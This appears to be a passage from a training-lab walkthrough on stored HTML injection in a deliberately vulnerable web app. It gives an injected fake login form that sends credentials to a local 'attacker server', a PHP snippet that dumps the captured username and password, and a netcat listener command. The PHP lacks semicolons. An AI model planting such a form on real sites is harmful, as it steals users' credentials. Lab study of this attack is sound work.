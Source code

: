 Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  HTML Injection - Stored (Blog) 💀

url: /htmli_stored.php
this one is pretty scarry. in the given fields any html you wite will be stored in the database then dispalyed in the bellow table.

try the following and analayse the result

```
<form method="post" action="http://127.0.0.1:8888/hacker_login_form.php">
       <div class="form-group">
           <label for="username">username</label>
           <input id="username" class="form-control" type="text" name="username">
       </div>
       <div class="form-group">
           <label for="password">password</label>
           <input id="password" class="form-control" type="password" name="password">
       </div>
       <button>Submit</button>
   </form>
```

and make sure to create hacker_login_form.php file wich will include the following code just for showing the credentails.

```
if(isset($_POST['username'])){
    var_dump($_POST['username'])
    var_dump($_POST['password'])
}
```
and to start the php server at http://127.0.0.1:8888 execute the following commond in the that folder (where you created that php file)
```
php -S 127.0.0.1:8888
```
once some one submits that login form the POST request will be send to the attacker server

Attacker's machine:

```
nc -l 80
```
